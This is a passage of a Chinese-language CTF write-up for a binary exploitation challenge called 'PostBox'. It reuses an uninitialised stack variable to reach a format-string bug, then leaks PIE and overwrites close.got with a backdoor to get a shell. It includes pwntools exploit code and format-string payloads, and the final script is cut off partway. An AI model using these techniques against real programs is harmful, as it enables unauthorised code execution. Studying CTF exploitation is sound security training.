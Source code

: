 途中还有几个 gadget 被\xa0 截断了,我找了半天代替用的 gadget

### PostBox | FINISHED

![](https://seandictionary.top/wp-content/uploads/2025/05/5e168a72-4b0e-4524-8e68-6fda05f059f7.png)

哇有后门函数,而且保护为 got 表可写

![](https://seandictionary.top/wp-content/uploads/2025/05/d261bc81-94e8-4e5d-9dc0-5979c985a400.png)

main 函数的逻辑为:

-   可以单独向文件中写入 0x400 个字节
-   也可以写入字节后继续写入描述(0x80 字节)

![](https://seandictionary.top/wp-content/uploads/2025/05/49372a8e-431a-4448-9c97-59c0074687d8.png)

当写入描述时,如果 v4=114514,存在格式化字符串漏洞

v4 未被初始化,我们的目标就是把 ctf 自然常数写入 v4

![](https://seandictionary.top/wp-content/uploads/2025/05/56b72269-ea11-4e5c-8601-5db0a3e07c76.png)

v4 是个 int 型临时变量,存在于栈中,在调用 PostScript 函数前,调用了 PostMessage

也就是说这两个函数在不同时间使用了同一块栈区作为栈

那 PostMessage 中未被初始化的变量就会继承 PostScript 中的数据

PostScript::v4 到 rbp 的距离:0x114

PostMessage::buf 到 rbp 的距离:0x410

buf 可写的部分有 0x400,也就是如果向 buf 中写入(0x410-0x114)后,再次写入的数据就会被 v4 复用

那我们直接在 PostMessage 中把 p32(0x114514)写入

这样就获得了格式化字符串的能力

但是单单一次格式化字符串是不够的,我们可以使用这次格式化字符串改变 v1 的值,使之变大,这样就可以多次格式化字符串,以此改写 close.got 为 backdoor

```
io.recvuntil(b"Give me your choice:\n\n")
io.sendline(b"2")
io.recvuntil(b"contents:\n\n")
payload=b'a'*0x2fc+p32(114514)*2
io.send(payload)
io.recvuntil(b"contents:\n\n")
io.send(b"%3c%49$n")#这里写为%3c是因为最后我完成攻击后发现一共使用了三次格式化字符串
```

然后可以泄露 pie,再使用 pwntools 自带的 fmtstr 模块攻击 got 表,然后退出

顺利 getshell

```
from pwn import *
context.arch='amd64'
#io=process('./pwn')
io=remote("192.168.137.1",55434)
def bug():
    gdb.attach(io)
def s(payload):
    io.recvuntil(b"contents:\n\n")
    io.send(payload)
    io.recvuntil(b'Your words:\n\n')
io.recvuntil(b"Give me your choice:\n\n")
io.sendline(b"2")
io.recvuntil(b"contents:\n\n")
payload=b'a'*0x2fc+p32(114514)*2
io.send(payload)
```